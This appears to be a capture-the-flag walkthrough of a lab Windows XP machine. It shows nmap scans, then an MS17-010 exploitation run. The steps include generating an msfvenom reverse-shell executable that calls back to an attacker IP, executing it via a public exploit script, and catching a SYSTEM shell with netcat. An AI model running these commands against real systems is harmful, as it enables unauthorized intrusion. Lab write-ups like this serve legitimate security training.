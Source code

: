 # IP Address: 10.10.10.4

# Enumeration.1
```
┌──(code㉿kali)-[~]
└─$ sudo nmap -sV -Pn -p- -T 4 10.10.10.4
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-10 19:00 EST

PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
```

Server is running Windows XP which is known to serve a vulnerable version of SMB by default. 

Vulnerability scan the SMB service with nmap scripts.
```
┌──(code㉿kali)-[~]
└─$ sudo nmap -Pn --script=smb-vuln-* -p 139,445 10.10.10.4 -v                                                                            
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-11 11:41 EST
NSE: Loaded 11 scripts for scanning.

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.

Nmap done: 1 IP address (1 host up) scanned in 12.20 seconds
           Raw packets sent: 2 (88B) | Rcvd: 2 (88B)

```

Check for exploits for ms17-010 and MS08-067. Found this exploit repository https://github.com/helviojunior/MS17-010

# Exploitation
Clone repository and generate the reverse shell executable.
```
┌──(code㉿kali)-[~]
└─$ git clone https://github.com/helviojunior/MS17-010.git
Cloning into 'MS17-010'...
remote: Enumerating objects: 202, done.
remote: Total 202 (delta 0), reused 0 (delta 0), pack-reused 202
Receiving objects: 100% (202/202), 118.50 KiB | 763.00 KiB/s, done.
Resolving deltas: 100% (115/115), done.

┌──(code㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -f exe > reverse.exe                                               
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

┌──(code㉿kali)-[~]
└─$ cd MS17-010/   

┌──(code㉿kali)-[~/MS17-010]
└─$ python send_and_execute.py 10.10.10.4 ../reverse.exe 445 browser                                                                          
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8209e3f8
SESSION: 0xe218d4f0
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe22b7878
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe22b7918
overwriting token UserAndGroups
Sending file BXLPM2.exe...
Opening SVCManager on 10.10.10.4.....
Creating service ukeA.....
Starting service ukeA.....
The NETBIOS connection with the remote host timed out.
Removing service ukeA.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

On netcat listener:
```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.4] 1031
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>set
set
ALLUSERSPROFILE=C:\Documents and Settings\All Users
CommonProgramFiles=C:\Program Files\Common Files
COMPUTERNAME=LEGACY
ComSpec=C:\WINDOWS\system32\cmd.exe
FP_NO_HOST_CHECK=NO
NUMBER_OF_PROCESSORS=1
OS=Windows_NT
Path=C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_IDENTIFIER=x86 Family 23 Model 1 Stepping 2, AuthenticAMD
PROCESSOR_LEVEL=23
PROCESSOR_REVISION=0102
ProgramFiles=C:\Program Files
PROMPT=$P$G
SystemDrive=C:
SystemRoot=C:\WINDOWS
TEMP=C:\WINDOWS\TEMP
TMP=C:\WINDOWS\TEMP
USERPROFILE=C:\Documents and Settings\LocalService
windir=C:\WINDOWS
```

Based on the USERPROFILE environment variable, it looks like we have system-level access.

# Enumeration.2

Find user.txt
![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Lame/images/Pasted%20image%2020211111124708.png)

Find root.txt
![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Lame/images/Pasted%20image%2020211111124918.png)